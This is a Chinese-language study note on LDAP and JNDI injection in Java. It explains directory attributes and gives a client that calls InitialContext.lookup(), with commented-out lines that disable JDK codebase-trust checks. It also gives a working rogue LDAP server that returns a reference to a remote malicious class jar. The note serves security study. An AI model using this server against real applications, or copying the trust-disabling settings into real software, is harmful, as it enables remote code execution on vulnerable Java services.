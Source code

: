 # LDAP

## 0x00 Introduction

LDAP全称是轻量级目录访问协议（The Lightweight Directory Access Protocol）



## 0x01 LDAP

>目录数据库和关系数据库不同，它有优异的读性能，但写性能差，并且没有事务处理、回滚等复杂功能，不适于存储修改频繁的数据。所以目录天生是用来查询的，就好象它的名字一样。

### 常用属性
| 属性名称 | 全称                          | 说明                                                                 |
|------|-----------------------------|--------------------------------------------------------------------|
| dn   | distinguished name          | 唯一标识名，类似于绝对路径，每个对象都有唯一标识名。例：uid=tester,ou=People,dc=example,dc=com |
| rdn  | relative distinguished name | 相对标识名，类似于相对路径。例：uid=tester                                         |
| uid  | user id                     | 通常指用户登录名。例：uid=tester                                              |
| sn   | sur name                    | 通常指一个人的姓氏。例：sn: Wang                                               |
| dc   | domain component            | 通常指定一个域名。例：DC=lenovo,DC=com                                        |
| ou   | organization unit           | 通常指定一个组织单元的名称。例：OU=工业8.0部,DC=hspv,DC=com                           |
| cn   | common name                 | 通常指一个对象的名称。如果是人，需要使用全名。例：CN=ldapadmin                              |
| c    | country                     | 一个二位的国家代码。例：CN、US、HK、JP等。                                          |

### JNDI中的LDAP协议

LDAP协议课存储JAVA的对象：
1. Java serializable objects
2. Referenceable objects and JNDI References
3. Objects with attributes (DirContext)
4. RMI (Java Remote Method Invocation) objects (including those that use IIOP)
5. CORBA objects

## 0x02 代码示例

### 危险函数
`javax.naming.InitialContext.lookup()`

### 客户端

```java
package jndi;

import javax.naming.InitialContext;

public class client {
    public static void main(String[] args) {
        //高版本jdk需要打开远程加载类的限制
        /*
        System.setProperty("java.rmi.server.useCodebaseOnly", "false");
        System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase", "true");*/
        try{
            String url = "ldap://localhost:3890/test";
            InitialContext initialContext = new InitialContext();
            Object obj =initialContext.lookup(url);
            System.out.println(obj);
        }catch (Exception e){
            e.printStackTrace();
        }
    }
}

### 服务端

```java
package jndi;

import com.unboundid.ldap.listener.InMemoryDirectoryServer;
import com.unboundid.ldap.listener.InMemoryDirectoryServerConfig;
import com.unboundid.ldap.listener.InMemoryListenerConfig;
import com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult;
import com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor;
import com.unboundid.ldap.sdk.Entry;
import com.unboundid.ldap.sdk.LDAPResult;
import com.unboundid.ldap.sdk.ResultCode;

import javax.net.ServerSocketFactory;
import javax.net.SocketFactory;
import javax.net.ssl.SSLSocketFactory;
import java.net.InetAddress;

public class ldapserver {

    // 设置LDAP绑定的服务地址，外网测试换成0.0.0.0
    public static final String BIND_HOST = "127.0.0.1";
    // 设置LDAP服务端口
    public static final int SERVER_PORT = 3890;

    public static void main(String[] args) {
        try {
            // 创建LDAP配置对象
            InMemoryDirectoryServerConfig config = new InMemoryDirectoryServerConfig("dc=test,dc=org");
            // 设置LDAP监听配置信息
            config.setListenerConfigs(new InMemoryListenerConfig(
                    "listen", InetAddress.getByName(BIND_HOST), SERVER_PORT,
                    ServerSocketFactory.getDefault(), SocketFactory.getDefault(),
                    (SSLSocketFactory) SSLSocketFactory.getDefault())
            );
            // 添加自定义的LDAP操作拦截器
            config.addInMemoryOperationInterceptor(new OperationInterceptor());

            // 创建LDAP服务对象
            InMemoryDirectoryServer ds = new InMemoryDirectoryServer(config);
            // 启动服务
            ds.startListening();
            System.out.println("LDAP服务启动成功");
        }catch (Exception e){
            e.printStackTrace();
        }

    }
    private static class OperationInterceptor extends InMemoryOperationInterceptor {

        @Override
        public void processSearchResult(InMemoryInterceptedSearchResult result) {
            String base  = result.getRequest().getBaseDN();
            Entry  entry = new Entry(base);

            try {
                // 设置对象的工厂类名
                String className = "test"; //修改
                entry.addAttribute("javaClassName", className);
                entry.addAttribute("javaFactory", className);

                // 设置远程的恶意引用对象的jar地址
                entry.addAttribute("javaCodeBase", "<http://127.0.0.1:8080/>");

                // 设置LDAP objectClass
                entry.addAttribute("objectClass", "javaNamingReference");

                result.sendSearchEntry(entry);
                result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
            } catch (Exception e1) {
                e1.printStackTrace();
            }
        }

    }
}
```


```







## Ref 
- [JNDI-LDAP%20注入及高版本JDK限制](https://m0d9.me/2020/07/23/JNDI-LDAP%20%E6%B3%A8%E5%85%A5%E5%8F%8A%E9%AB%98%E7%89%88%E6%9C%ACJDK%E9%99%90%E5%88%B6%E2%80%94%E2%80%94%E4%B8%8A/)
- [Java-JNDI分析与利用](https://myzxcg.com/2021/10/Java-JNDI%E5%88%86%E6%9E%90%E4%B8%8E%E5%88%A9%E7%94%A8/)
